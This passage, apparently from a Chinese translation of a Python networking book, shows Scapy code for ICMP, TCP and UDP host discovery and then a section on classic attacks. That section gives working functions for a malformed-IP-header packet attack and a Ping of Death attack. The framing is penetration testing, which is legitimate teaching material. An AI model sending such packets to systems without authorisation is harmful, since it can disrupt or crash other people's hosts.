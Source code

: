 ```py
    # ICMP Port unreachable error from closed port
    ans, unans = sr(IP(dst=destination)/UDP(dport=0))
    return ans
```

在这个例子中，我们还将使用`summary()`和`sprintf()`进行输出：

```py
def answer_summary(answer_list):
 # example of lambda with pretty print
    answer_list.summary(lambda(s, r): r.sprintf("%IP.src% is alive"))
```

如果你想知道为什么在前面的`answer_summary()`函数中有一个 lambda，那是一种创建小型匿名函数的方法。基本上，它是一个没有名字的函数。关于它的更多信息可以在[`docs.python.org/3.5/tutorial/controlflow.html#lambda-expressions`](https://docs.python.org/3.5/tutorial/controlflow.html#lambda-expressions)找到。

然后我们可以在一个脚本中执行网络上的三种 ping 类型：

```py
def main():
    print("** ICMP Ping **")
    ans = icmp_ping("10.0.0.13-14")
    answer_summary(ans)
    print("** TCP Ping **")
    ans = tcp_ping("10.0.0.13", 22)
    answer_summary(ans)
    print("** UDP Ping **")
    ans = udp_ping("10.0.0.13-14")
    answer_summary(ans)

if __name__ == "__main__":
    main()
```

到目前为止，希望你会同意我的观点，通过拥有构建自己的数据包的能力，你可以控制你想要运行的操作和测试的类型。

# 常见攻击

在这个例子中，让我们看看如何构造我们的数据包来进行一些经典攻击，比如*Ping of Death* ([`en.wikipedia.org/wiki/Ping_of_death`](https://en.wikipedia.org/wiki/Ping_of_death)) 和 *Land Attack* ([`en.wikipedia.org/wiki/Denial-of-service_attack`](https://en.wikipedia.org/wiki/Denial-of-service_attack))。这可能是您以前必须使用类似的商业软件付费的网络渗透测试。使用 Scapy，您可以在保持完全控制的同时进行测试，并在将来添加更多测试。

第一次攻击基本上发送了一个带有虚假 IP 头的目标主机，例如长度为 2 和 IP 版本 3：

```py
def malformed_packet_attack(host):
    send(IP(dst=host, ihl=2, version=3)/ICMP()) 
```

`ping_of_death_attack`由常规的 ICMP 数据包组成，其负载大于 65,535 字节：

```py
def ping_of_death_attack(host):
    # https://en.wikipedia.org/wiki/Ping_of_death
    send(fragment(IP(dst=host)/ICMP()/("X"*60000)))
```
